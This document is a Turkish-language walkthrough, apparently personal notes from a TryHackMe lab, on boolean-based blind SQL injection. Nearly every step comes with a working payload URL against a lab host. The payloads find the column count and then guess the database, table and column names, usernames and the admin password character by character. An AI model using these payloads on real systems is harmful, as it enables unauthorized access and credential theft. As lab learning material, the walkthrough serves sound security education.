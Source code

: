 #Boolean Based

Boole tabanlı SQL Enjeksiyonu, enjeksiyon girişimlerimizden aldığımız yanıta atıfta bulunur; bu yanıt doğru/yanlış, evet/hayır, açık/kapalı, 1/0 veya yalnızca iki sonucu olabilen herhangi bir yanıt olabilir. Bu sonuç, SQL Enjeksiyon yükümüzün başarılı olup olmadığını doğrular. İlk incelemede, bu sınırlı yanıtın fazla bilgi sağlayamayacağını düşünebilirsiniz. Yine de, yalnızca bu iki yanıtla, tüm bir veritabanı yapısını ve içeriklerini sıralamak mümkündür.

#Practica

```bash
https://website.thm/checkuser?username=admin
```

Web uygulaması false olarak alınan değerle yanıt verdiğinden   , bunun sütunların yanlış değeri olduğunu doğrulayabiliriz.  true alınan bir  değere  sahip olana kadar daha fazla sütun eklemeye devam edin . Kullanıcı adını aşağıdaki değere ayarlayarak cevabın üç sütun olduğunu doğrulayabilirsiniz:


```bash
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3;-- 
```

Artık sütun sayımız belirlendiğine göre, veritabanının numaralandırılması üzerinde çalışabiliriz. İlk görevimiz veritabanı adını keşfetmektir. Bunu, yerleşik  database()  metodunu kullanarak ve ardından  like  operatörünü kullanarak doğru bir durum döndürecek sonuçları bulmaya çalışarak yapabiliriz.
Aşağıdaki kullanıcı adı değerini deneyin ve ne olacağını görün:

 % işaretinin başına harfleri getiricez db_name cıkartana kadar eğer her doğru harf için true değeri gelicek.
 
 
```bash
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 's%';-- // true
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 where database() like 'sq%';-- //true

// taaki bu sonuca yada db_namee erişene kadar sqli_three bunu script ilede yapabiliriz

```
 Şimdi  veritabanı adının bir sonraki karakterine, örneğin 'sa%', 'sb%', 'sc%', vb. gibi başka bir doğru yanıt bulana kadar geçin. Veritabanı adının tüm karakterlerini, yani  sqli_three'yi keşfedene kadar bu işlemi sürdürün .



Artık benzer bir yöntem kullanarak tablo adlarını numaralandırmak için kullanabileceğimiz veritabanı adını oluşturduk. Kullanıcı adını aşağıdaki değere ayarlamayı deneyin:

```bash
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'u%';--  // true
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'us%';--  // true
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'users%';--  // true
```
Son olarak, şimdi kullanıcı tablosundaki sütun adlarını numaralandırmamız gerekiyor,   böylece oturum açma kimlik bilgilerini düzgün bir şekilde arayabiliriz. Tekrar, information_schema veritabanını ve daha önce elde ettiğimiz bilgileri kullanarak sütun adlarını sorgulayabiliriz. Aşağıdaki yükü kullanarak,   veritabanının sqli_three'ye eşit olduğu, tablo adının users olduğu ve sütun adının a harfiyle başladığı sütunlar tablosunu ararız.
```bash
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';

```
bu kısımda birden fazla kolumn olaabilir örn = password, users etc.

Bu işlemi üç kez tekrarlamak, sütunların id, username ve password'ünü keşfetmenizi sağlayacaktır. Bunu şimdi kullanıcı tablosunda oturum açma kimlik bilgilerini sorgulamak için kullanabilirsiniz   . İlk olarak, aşağıdaki yükü kullanabileceğiniz geçerli bir kullanıcı adı keşfetmeniz gerekir:

user ve password bulduk

```bash
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'a%' ;--
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'ad%' ;--
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'admin%' ;--
```
users içinden admin userini bulduk
```bash
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'somethink%' ;--
```
bu şekilde username and password bulundu.









